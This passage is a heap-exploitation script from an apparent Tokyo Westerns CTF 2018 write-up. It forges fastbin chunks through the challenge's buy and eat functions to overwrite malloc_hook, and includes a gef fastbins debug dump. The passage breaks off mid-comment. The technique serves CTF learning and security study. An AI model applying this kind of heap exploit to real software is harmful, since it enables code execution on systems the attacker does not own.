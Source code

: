     buy(p64(heap_base+0xd0),123)
    buy(p64(heap_base+0x10),123)
    #balance the heap struct
    buy('a'*0x10+p64(0xDEADBEEF11),0x31)
    buy(p64(0xDEADBEEF11),0x31)
    buy('padding',0x31)
    
    buy('C'*40+p64(heap_base+0x1e0),123)
    eat(5)
    #free a 0x31 chunk
    #now we need another 0x20 chunk to fake food struct
    buy(p64(0xDEADBEEF11),0xb1)
    buy('A'*0x8,123)
    buy('B'*0x8,123)#fake a 0xb1 chunk
    buy(p64(mlh+0x10),123)
    
    buy('C'*40+p64(heap_base+0x2c0),123)
    #free it
    eat(5)
    buy("H"*0x10+p64(heap_base+0x390),123)
    
    #*heap_base+0x390 == malloc_hook + 0x10
    
    grill('',0)
    
    eat(0)
    p() #add 2f0 + heapbase to fastbin (0x20) fb[0]
    #heap_base + 2f0 ->heapbase+390->mlh+0x10
    #heapbase+0x1d0->heapbase+0x150
    #[ fb 0 ] 0x7f64c286ab28  -> [ 0x5564206b62f0 ] (32) fake num
    #[ fb 1 ] 0x7f64c286ab30  -> [ 0x5564206b61d0 ] (48) fake name ptr
    #                               |
    #								->heapbase + 150
    #p()
    left=0x100000000-0x210
    while(left>0):
        if(left<0x7FFFFFFF):
            buy(p64(heap_base+0x150),left)
            break
        else:
            buy(p64(heap_base+0x150),0x7FFFFFFF)
            left-=0x7FFFFFFF
    #before was 2f0 now we want it to poited to 0e0 ,and 0e0 -> mlh - 0x18
    '''
    gef fastbins
    fastbins
    [ fb 0 ] 0x7f7f7abb2b28  -> [ 0x56296bec30e0 ] (32)
                                [ 0x7f7f7abb2af8 ] (32)
                                [ 0x7f7f7a873a00 ] (32)
                                [ 0xd5058b4838ec8348 ] (32)[!] Could not read address 0xd5058b4838ec8348
    

  [1]: https://changochen.github.io/2018/09/01/Tokyo-Western_CTF-2018/